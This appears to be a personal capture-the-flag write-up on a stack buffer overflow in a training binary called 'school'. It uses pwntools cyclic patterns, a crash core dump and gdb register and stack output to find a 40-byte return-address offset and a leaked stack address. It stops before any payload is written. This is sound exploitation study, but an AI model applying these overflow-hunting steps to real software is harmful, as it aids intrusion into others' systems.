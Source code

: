 Unfortunately, no fun functions like Backdoor had
![[Pasted image 20240306113802.png]]
We don't even see system imported like we saw there:
![[Pasted image 20240306113831.png]]

So, let's spam it with input until we get a segfault
###### Fault happens 40 char in:
```
┌──(kali㉿kali)-[~/Desktop/5-Week]
└─$ python3 School_Pwn1.py
[+] Starting local process './school': pid 1284615
[*] Process './school' stopped with exit code -11 (SIGSEGV) (pid 1284615)
[+] Parsing corefile...: Done
[*] '/home/kali/Desktop/5-Week/core.1284615'
    Arch:      amd64-64-little
    RIP:       0x400681
    RSP:       0x7ffe9fe27878
    Exe:       '/home/kali/Desktop/5-Week/school' (0x400000)
    Fault:     0x6161616c6161616b
[*] rsp = 0x7ffe9fe27878
[*] rip offset = 40
```

We see some of the data leak into our stack and registers too:
```
$rax   : 0x0               
$rbx   : 0x00007fffffffdee8  →  0x00007fffffffe250  →  "/home/kali/Desktop/5-Week/school"
$rcx   : 0x0               
$rdx   : 0x0               
$rsp   : 0x00007fffffffddd8  →  "kaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawa[...]"
$rbp   : 0x6161616a61616169 ("iaaajaaa"?)
$rsi   : 0x00007fffffffdc00  →  "Hi, aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaala[...]"
```
`rbp` is overwritten

Data fills up the stack:
```
0x00007fffffffddd8│+0x0000: "kaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawa[...]"    ← $rsp
0x00007fffffffdde0│+0x0008: "maaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaaya[...]"
0x00007fffffffdde8│+0x0010: "oaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa"
...omitted for brevity...
```

What is in our leaked address?
```
┌──(kali㉿kali)-[~/Desktop/5-Week]
└─$ pwn cyclic 100 > inp
┌──(kali㉿kali)-[~/Desktop/5-Week]
└─$ gdb ./school -q
gef➤  r < inp
Let's go to school! School's at: 0x7fffffffddb0. gimme directions:
Hi, aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
gef➤  x 0x7fffffffddb0
0x7fffffffddb0: 0x61616161

Program received signal SIGSEGV, Segmentation fault.
0x0000000000400681 in main ()
```
